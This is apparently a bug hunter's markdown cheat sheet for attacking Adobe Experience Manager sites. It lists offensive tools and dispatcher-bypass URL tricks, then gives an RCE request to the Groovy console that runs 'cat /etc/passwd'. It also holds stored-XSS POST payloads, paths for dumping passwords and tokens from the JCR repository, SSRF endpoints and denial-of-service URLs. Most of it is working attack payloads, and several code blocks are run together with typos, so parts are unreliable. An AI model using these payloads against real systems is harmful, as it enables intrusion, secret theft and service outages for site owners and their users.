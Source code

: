 ```yaml
---
tags:
  - web-app-security
---
```

### video

[https://www.youtube.com/watch?v=EQNBQCQMouk](https://www.youtube.com/watch?v=EQNBQCQMouk)

### method

- collect sub domain
- use nuclei/nuclei-templates/technologies/tech-detect.yaml to identifiy aem
- Python3 ./aem_hacker.py –u [https://example](https://example/) — host localhost
- use ../fuzzing/service/aem.txt to fuzz on path

### aem tools

- [https://github.com/0ang3el/aem-hacker](https://github.com/0ang3el/aem-hacker)
- [https://github.com/0ang3el/aem-rce-bundle](https://github.com/0ang3el/aem-rce-bundle)

```
python3 aem_hacker.py    -u     --host yourvpshostname         =>comman usagepython3 aem_discovery.py --file urls.txt --workers 150         =>discover urlpython3 aem_enum.py      --url                                 => automate usernames and secrets grabbingpython3 aem_ssrf2rce.py  --url  --fakaem yourvbspython3 aem_server.py
```

### aem dispatcher bypasses

- [ ] bypassing cve 2016-0957

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => allow<https://aemsite/bin/querybuilder.json/a.html>       => allow<https://aemsite/bin/querybuilder.json/a.ico>        => allow<https://aemsite/bin/querybuilder.json/a.png>        => allow<https://aemsite/bin/querybuilder.json;%0aa.css>     => allow<https://aemsite/bin/querybuilder.json/a.1.json>     => allow
```

- [ ] bypassing for interesting servlets

```
<https://aemsite/bin/querybuilder.json>              => blocked<https://aemsite/bin/querybuilder.json/a.css>        => block<https://aemsite/bin/querybuilder.json;%0aa.css>     => block<https://aemsite/bin/querybuilder.json.servlet.css>  => allow<https://aemsite/bin/querybuilder.json.servlet.html> => allow<https://aemsite/bin/querybuilder.json.servlet.ico>  => allow<https://aemsite/bin/querybuilder.json.servlet.png>  => allow///etc.json                 instead of  /etc.json///bin///quesrybuilder.json instead of  /bin/quesrybuilder.json
```

- [ ] using ssrf

```
ssrf should allow to send GET request and see response- Opensocial proxy- ssrf in reportingservicesproxyservlet(cve-2018-12809)
```

- [ ] rce via exposed Groovy console

```
POST /bin/groovyconsole/post.servlet HTTP/1.1HOST:script=sef+proc+%3d+"cat+/etc/passwd".execute()%0d%0aprintln+proc.txt
```

- [ ] xss

```
POST //////content/usergenerated/etc/commerce/smartlists/vv.jsonaa=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

- [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssaaa.html=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b
```

- [ ] xss

```
POST /content/usergenerated/etc/commerce/smartlists/xssedjcr:data=alert('xss+on+'%2b+document.domain+%2b+'\\nby+%400ang3el+\\ud83d\\ude00')%3b&jcr:mimeType=text/html
```

- [ ] secret from jcr

```
everything is stored in jcr repository :- secrets (password  ,encryption key , tokens)- cinfiguration- pII- usernames** what to use **- DefaultGETServlet- QueryBUilderJsonServlet- QueryBuilderFeedServlet- GQLSearch Servlet- other** DefaultGETServlet **- Allows to get jsr node with its props- selectors  - tidy  - infinity  - numeric value:-1,0,1...99999- formats  - json  - xml  - res- <https://aem.site/tidy.3.json>  /    => jcr:root  tidy => selector tidy  3    => selector depth  json => output format- how to grap - get node names, start from jcr:root :    - /.1.json    - /.ext.json    - /.childrenlist.json - or guess node names :    - comman names /content, /home, /var, /etc - Dump props for each child node of jcr:root :    - /etc.json or /etc.s.json or /etc.-1.json- what to grap - interesting nodes    - /etc => may contain secrets (pass,enc,keys)    - /apps/system/config => passwords    - /apps/<smth>/config => passwords    - /var => may contain private pii    - /home => password hashed ,pii - interesting props-contain aem usernames    - jcr:createdBy    - jcr:lastModifiedBy    - cq:LastModifiedBy
```

- [ ] QueryBuild Servlets

```
- path   - /bin/querybuilder.json   - /bin/querybuilder.feed.servlet- examples of useful searches - type=nt:file&nodename=*.zip - path=/home&p.hits-full&p.limit=-1 - hasPermission=jcr:write&path=/content - hasPermission=jcr:addChild Nodes&path=/content - hasPermission=jcr:modify Properties&path=/content - p.hits-selective&p.properties=jcr%3alastModifiedBy&property=jcr%3alast ModifiedBy&property.operation-unequals&property.value=admin&type=nt%3abase&p.limit=1000 - path=/etc&path.flat=true&p.nodedepth=0 - path=/etc/replication/agents.author&p.hits-full&p.nodedepth=-1
```

- [ ] exploit SSRF

```
ssrf via Opensocial proxy - /libs/opensocial/proxy?container=default&url=http://target - /libs/shindig/proxy?container=default&url=http://target
```

- [ ] ReportingServicesProxyServlet

```
SSRF via ReportingServicesProxyServlet (CVE-2018-12809)- /libs/ca/contentinsight/content/proxy.reportingservices.json?url=http://target%23/apil.omniture.com/a&q=a- /libs/cq/contentinsight/proxy/reportingservices.json.GET.servlet?url=http://target%23/apil.omniture.com/a&q=a- /libs/mcm/salesforce/customer.json?checkType=authorize&authorization_url=http://target&customer_key=zzzz&customer_secret-zzzz&redirect_uri=xxxx&code=eSSRF via SiteCatalystServlet- /libs/cq/analytics/components/sitecatalystpage/segments.json.servlet- /libs/cq/analytics/templates/sitecatalyst/jcr:content.segments.json
```

- [ ] DOS

```
- /.ext.infinity.json- /.ext.infinity.json?tidy=true- /bin/querybuilder.json?type=nt:base&p.limit=-1- /bin/wcm/search/gql.servlet.json?query=type:base%20limit:..-1&pathPrefix=- /content.assetsearch.json?query=*&start=0&limit=10&random=123- /..assetsearch.json?query=*&start=0&limit=10&random=123- /system/bgservlets/test.json?cycles-999999&interval=0&flushEvery=111111111
```